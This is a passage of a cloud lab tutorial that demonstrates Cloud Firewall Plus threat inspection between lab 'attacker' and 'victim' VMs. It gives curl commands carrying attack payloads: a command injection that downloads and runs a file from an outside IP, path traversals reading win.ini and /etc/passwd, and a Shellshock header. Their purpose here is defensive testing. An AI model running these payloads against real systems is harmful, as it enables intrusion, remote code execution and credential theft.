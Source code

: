 9. (Optional) Review the created resources:
    - [Firewall Endpoint](https://console.cloud.google.com/net-security/firewall-endpoints/)
    - [Firewall Endpoint VPC Network Association](https://console.cloud.google.com/networking/networks/list)
    - [Security Profile](https://console.cloud.google.com/net-security/security-profiles/profiles)
    - [Network Firewall Policy](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/)
    <br>


## Simulate threats without Cloud Firewall Plus

Simulate several threats between the `attacker` and `victim` virtual machines without Cloud Firewall Plus inspection.  Deep packet inspection does not occur because the firewall policies created in the previous step do not intercept traffic for inspection by the Firewall Plus endpoint. 

<img src="images/allow.png" alt="topology.png"  width="100%" />

1. In Cloud Shell, open an SSH session to the `attacker` VM.
    ```
    gcloud compute ssh paloalto@$PREFIX-attacker --zone=$ZONE --project=$PROJECT_ID
    ```

2. From the `attacker` VM, simulate sudo-threats to the `victim` (`10.0.0.20`) VM.
    ```
    curl "http://10.0.0.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://10.0.0.20/?item=../../../../WINNT/win.ini -m 5
    curl http://10.0.0.20/cgi-bin/../../../..//bin/cat%20/etc/passwd -m 5
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' -m 5 http://10.0.0.20/cgi-bin/test-critical -m 5
    ```

